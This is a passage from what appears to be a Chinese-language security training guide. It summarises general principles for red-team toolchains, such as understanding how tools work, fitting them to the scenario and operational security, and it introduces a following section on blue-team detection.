- 作为红队能力储备，提升团队整体技术水平

---

### 本节小结

红队工具链是攻击能力的物化体现，但工具只是手段，不是目的。掌握工具的关键在于：

1. **理解原理**：每个工具背后都有其技术原理，理解原理才能灵活运用
2. **场景适配**：没有万能的工具，只有最适合场景的工具组合
3. **持续演进**：防御技术在更新，工具链也必须随之演进
4. **OPSEC第一**：再好的工具，如果暴露了操作痕迹，都是失败的
5. **能力储备**：自定义开发能力是红队区别于"脚本小子"的关键标志

> 下一节将详细介绍蓝队检测工程，从防御视角审视这些攻击工具如何被检测和应对。
